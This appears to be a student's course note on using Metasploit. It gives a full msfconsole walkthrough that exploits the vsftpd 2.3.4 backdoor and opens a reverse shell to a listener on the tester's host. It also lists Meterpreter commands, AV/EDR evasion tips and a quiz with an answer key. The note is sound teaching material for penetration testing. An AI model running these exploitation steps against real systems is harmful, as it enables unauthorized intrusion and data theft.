


# Exploitation Workflow with Metasploit

> [!info] Document Metadata
> - **Course:** `=this.course`
> - **Topic:** `=this.topic`
> - **Status:** `=this.status`

**Tags:** #[[Computer Science]] #[[NSSECU2]] #[[Cybersecurity]] #[[Metasploit]] #[[Exploitation]] #[[Payloads]] #[[Meterpreter]] #[[Reverse Shell]]

---

## Overview

> Exploitation represents the critical phase in an offensive security assessment where theoretical vulnerabilities are validated through controlled execution of proof-of-concept payloads. The **Metasploit Framework (MSF)** provides a modular, extensible platform that standardizes exploit delivery, payload generation, and session management. Ethical practitioners operate under strict constraints, employing pre-flight verification checks (`check`), non-destructive payloads, and stable shell architectures (e.g., staged reverse TCP connections) to demonstrate genuine business risk without triggering service disruptions.

## Key Definitions

- **Exploit:** A modular piece of software, sequence of commands, or crafted data packet designed to take advantage of a specific software flaw, bug, or vulnerability to produce unintended program behavior.
- **Payload:** The specific code delivered and executed on the target host following successful exploitation (e.g., executing a command shell, opening a reverse connection, or injecting Meterpreter).
- **Auxiliary Module:** A Metasploit module that performs non-exploitation tasks such as port scanning, service enumeration, brute-force authentication, or denial-of-service testing.
- **Post Module:** A module executed within an active session to gather system credentials, enumerate local networks, or evaluate privilege escalation paths.
- **Bind Shell:** A shell architecture where the payload instructs the compromised target system to open a listening port and wait for the attacker to establish an inbound connection.
- **Reverse Shell:** A shell architecture where the compromised target actively initiates an outbound network connection back to a listening port hosted on the attacker's machine.
- **Meterpreter:** An advanced, stealthy, dynamically extensible in-memory payload that utilizes reflective DLL injection to operate entirely within the memory space of a running process without touching the target disk.
- **Staged Payload:** A two-part payload consisting of a small **Stager** (which connects back to fetch the remainder) and a larger **Stage** (e.g., Meterpreter core), allowing execution across constrained memory buffers.

## Theoretical Framework / Core Concepts

### 1. Metasploit Framework Modular Architecture

Metasploit organizes security capabilities into distinct, interchangeable module directories:



### 2. Shell Architectures: Bind vs. Reverse Shells

Selecting the correct shell architecture is crucial for traversing enterprise network defenses:



#### Staged vs. Non-Staged Payload Naming Convention

In Metasploit, payload naming dictates payload delivery mechanics:

- **Non-Staged (Single / Inline):** Indicated by an underscore (`_`). The entire payload is delivered in one contiguous block.
  - Example: `windows/x64/meterpreter_reverse_tcp`, `linux/x86/shell_reverse_tcp`
- **Staged:** Indicated by a slash (`/`). A small stager is executed first, which downloads and executes the full stage in memory.
  - Example: `windows/x64/meterpreter/reverse_tcp`, `linux/x86/meterpreter/reverse_tcp`

### 3. Meterpreter Architectural Capabilities

Meterpreter executes via **Reflective DLL Injection**, providing rich operational functionality:

- **Zero Disk Footprint:** Operates strictly inside memory buffers, evading basic file-based antivirus scanners.
- **Process Migration:** Can migrate its execution thread into legitimate system processes (e.g., `explorer.exe`, `svchost.exe`) via `migrate <PID>`.
- **Encrypted TLS Communication:** Encrypts all control traffic and command I/O over TLS.
- **Native Post-Exploitation APIs:** Built-in commands for screenshotting, keystroke logging, credential dumping, and network routing.

## Metasploit Console Execution Flow (`msfconsole`)

A complete, standard five-phase execution walkthrough in `msfconsole`:

```bash
# Launch Metasploit Console with Silent Banner
msfconsole -q
```

```text
# PHASE 1: Search and Information Gathering
msf6 > search type:exploit name:vsftpd
msf6 > info exploit/unix/ftp/vsftpd_234_backdoor

# PHASE 2: Module Selection and Target Configuration
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show options
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 192.168.10.45
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RPORT 21

# PHASE 3: Payload Selection and Local Listener Configuration
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show payloads
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set PAYLOAD payload/cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set LHOST 192.168.10.50
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set LPORT 4444

# PHASE 4: Safe Pre-Flight Vulnerability Verification (If Supported)
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > check
[*] 192.168.10.45:21 - The target appears to be vulnerable.

# PHASE 5: Controlled Execution and Session Management
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit -j
[*] Exploit running as background job 0.
[*] Command shell session 1 opened (192.168.10.50:4444 -> 192.168.10.45:6200)

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > sessions -l
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > sessions -i 1
```

### Essential Metasploit Console Commands

| Command | Operational Purpose |
| :--- | :--- |
| `use <module_path>` | Selects and loads the specified module into the active workspace context. |
| `show options` / `show missing`| Displays mandatory and optional parameters for module and payload. |
| `set <OPTION> <value>` | Assigns a parameter value (e.g., `set RHOSTS 10.0.0.5`). |
| `setg <OPTION> <value>` | Globally assigns a parameter value across all loaded modules in the session. |
| `check` | Executes the module's non-destructive pre-flight vulnerability check function. |
| `exploit` / `run` | Initiates the exploit attack flow. (Use `-j` to run as a background job). |
| `sessions -l` | Lists all currently active command shells and Meterpreter sessions. |
| `sessions -i <ID>` | Interacts directly with the specified active session. |
| `background` / `Ctrl+Z` | Sends the currently active session to the background without terminating it. |

### Essential Meterpreter Session Commands

```bash
# Inside an Active Meterpreter Session:
meterpreter > sysinfo           # Display target OS, hostname, architecture, and kernel
meterpreter > getuid            # Display current user context (e.g. NT AUTHORITY\SYSTEM, root)
meterpreter > ps                # Enumerate active processes and process IDs (PIDs)
meterpreter > migrate 1420      # Migrate Meterpreter thread into PID 1420
meterpreter > upload /root/enum.sh /tmp/enum.sh  # Upload local file to target
meterpreter > download /etc/hosts /root/loot/    # Download remote file to local host
meterpreter > shell             # Drop into standard native operating system shell
```

## Interpreting Validation Results & Error Codes

When an exploit fails, ethical testers diagnose the root cause rather than repeatedly firing the module:

| Error Output | Root Cause Diagnosis | Actionable Remedy |
| :--- | :--- | :--- |
| `Exploit failed: Connection refused` | Service is not listening on `RPORT` or firewall dropped TCP SYN | Re-run Nmap port scan; verify target IP and port. |
| `Exploit failed [unreachable]: Timed out`| Network routing failure or stateful firewall drop | Verify network connectivity via ping/ARP; adjust timeouts. |
| `The target is not vulnerable.` | Software has been patched or version mismatch | Re-verify exact build version; review CVE requirements. |
| `Handler failed to bind to LHOST` | Local port `LPORT` already in use by another tool | Check `netstat -tlpn`; select unused `LPORT` (e.g., 4445). |
| `Session opened... closed immediately`| Antivirus / EDR killed payload or bad architecture | Switch payload to 64-bit; change payload type or encoding. |

## Operational Restraint & Lab Boundaries

- **The `check` Command First:** Always run `check` when available. This evaluates service banners, registry keys, or specific API quirks without injecting shellcode.
- **Avoid Uncontrolled DoS Exploits:** Memory corruption exploits (e.g., kernel stack overflows) carry significant risk of blue-screening Windows hosts or kernel-panicking Linux servers.
- **Session Cleanup:** When concluding testing, gracefully terminate all open sessions (`sessions -K`) to avoid leaving unmonitored command listeners open on client networks.

## Multiple Choice Questions

1. In Metasploit Framework module taxonomy, what is the defining characteristic of a Staged Payload compared to a Non-Staged (Single) Payload?
- **A)** Staged payloads only work on 8-bit microcontrollers.
- **B)** Staged payloads divide execution into a small initial stager that connects back to fetch the larger core payload into memory, whereas non-staged payloads deliver the entire payload in one package.
- **C)** Staged payloads do not require an active IP address.
- **D)** Staged payloads always delete the target's operating system.

2. Why are Reverse Shells generally preferred over Bind Shells during external network penetration tests?
- **A)** Reverse shells use less electricity on the tester's laptop.
- **B)** Reverse shells initiate outbound connections from the target, successfully traversing stateful firewalls and NAT gateways that block inbound connections.
- **C)** Bind shells cannot execute Linux commands.
- **D)** Reverse shells are unencrypted.

3. Which Metasploit command allows an analyst to evaluate whether a target host is vulnerable without actually delivering the disruptive exploitation payload?
- **A)** `exploit -f`
- **B)** `check`
- **C)** `kill 0`
- **D)** `db_nmap -A`

4. What mechanism does Meterpreter utilize to maintain stealth and avoid triggering disk-based Antivirus file scans?
- **A)** Writing temporary `.exe` files into the `C:\Windows\System32` directory
- **B)** Executing exclusively in memory using Reflective DLL Injection without creating binaries on the disk
- **C)** Formatting the target system's swap partition
- **D)** Disabling the target computer's power supply

5. In `msfconsole`, what command sends an active Meterpreter session to the background without killing the connection?
- **A)** `exit`
- **B)** `background` (or `Ctrl+Z`)
- **C)** `kill`
- **D)** `shutdown`

6. An analyst loads an exploit and sets `RHOSTS 192.168.1.50`. What does the `RHOSTS` variable represent?
- **A)** The IP address of the penetration tester's local machine
- **B)** The IP address of the remote target system being assessed
- **C)** The default router gateway of the internet service provider
- **D)** The DNS server used to resolve domain names

7. What does the notation `windows/x64/meterpreter/reverse_tcp` signify in Metasploit?
- **A)** A 64-bit Windows staged Meterpreter payload that initiates a reverse TCP connection back to the tester
- **B)** A Linux single shell that binds to port 80
- **C)** An auxiliary vulnerability scanner for Windows 95
- **D)** A database connector for Microsoft SQL Server

8. When an exploit reports `Exploit completed, but no session was created`, which of the following is a common technical explanation?
- **A)** The tester's computer ran out of RAM.
- **B)** The exploit executed, but an endpoint detection (AV/EDR) agent blocked the payload, the target was patched, or `LHOST` was misconfigured.
- **C)** The client upgraded all cables to fiber optics.
- **D)** Metasploit requires an administrative password to view sessions.

### Answer Key & Explanations

1. **B**. **Staged payloads** use a multi-phase delivery: an initial compact **stager** allocates memory and downloads the full stage (e.g., Meterpreter), bypassing buffer size limitations.
2. **B**. Enterprise network firewalls almost universally block unsolicited inbound connections (preventing Bind Shells), but permit **outbound connections** initiated from inside the perimeter (enabling Reverse Shells).
3. **B**. The **`check`** command evaluates vulnerability presence through passive indicators or non-destructive probes without executing shellcode.
4. **B**. **Meterpreter** executes in volatile system memory via **Reflective DLL Injection**, avoiding writing executable files to physical disk storage.
5. **B**. The **`background`** command (or pressing `Ctrl+Z`) suspends session interaction and returns the analyst to the `msfconsole` prompt while preserving the active session.
6. **B**. In Metasploit, **`RHOSTS`** (Remote Hosts) specifies the target system(s) being evaluated, while **`LHOST`** (Local Host) specifies the tester's receiving listener IP.
7. **A**. The naming convention indicates the platform (`windows`), architecture (`x64`), payload type (`meterpreter`), delivery method (staged, denoted by `/`), and protocol (`reverse_tcp`).
8. **B**. When no session is established, it typically indicates **defensive intervention** (AV/EDR termination), payload mismatch, incorrect network listener routing (`LHOST`), or a patched target.

## References & Navigation

- **Previous Topic:** [[Web Application Pentesting]]
- **Next Topic:** [[Post-Exploitation Awareness and Privilege Escalation]]
- **Related Notes:** [[Post-Exploitation Awareness and Privilege Escalation]], [[Attack Path Development]]
